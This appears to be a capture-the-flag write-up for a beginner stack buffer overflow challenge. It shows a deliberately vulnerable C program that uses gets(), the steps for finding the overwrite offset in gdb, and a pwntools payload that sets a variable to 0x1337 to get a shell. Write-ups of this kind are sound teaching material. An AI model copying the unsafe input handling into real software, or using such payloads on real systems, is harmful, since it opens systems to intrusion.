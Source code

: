 # Intro 1

We are given the source code and the compiled binary.

main.c : 
```
#include <stdio.h>
#include <stdlib.h>


int main(){
    char buf[0x100];
    int overwrite_me;
    overwrite_me = 1234;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(buf);
    if (overwrite_me == 0x1337){
        system("/bin/sh");
    }
    return 0;
}
```

checksec shows the following securities:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay so we have a 64 bit binary that is using "gets" to read input from the user.

Gets allows us to overflow the buffer, and in this case we want to overwrite "overwrite_me" with 0x1337. As they will run "/bin/sh" and give us a shell on the remote server.



Straight forward enough. Just have to find out the offset.

To do this I ran gdb on the file and sent a cyclic pattern of 300 to overflow the buffer.

![](pics/1.png)

We can see the above output from gdb when we send our pattern 

RBP has been loaded with "saac"

Running "cyclic -l saac" we know the offset the amount of data needed before we overwrite RBP is 272

![](pics/2.png)

If I disassemble main inside GDB as shown above you can see the CMP function which is checking if the "overwrite_me" variable is is equal to 0x1337. It also shows is that is at 'rbp-0x4'

272 - 4 = 268

So our payload will be 

268 junk data + 0x1337

This can be done a number of ways but to keep it simple for this writeup ive done it with pwntools

our payload will look like this:

```
OFFSET = 268
payload = b'A' * OFFSET
payload += p64(0x1337)

io.sendline(payload)

io.interactive()
```

Running this on the remote server we get the flag:

![](pics/3.png)

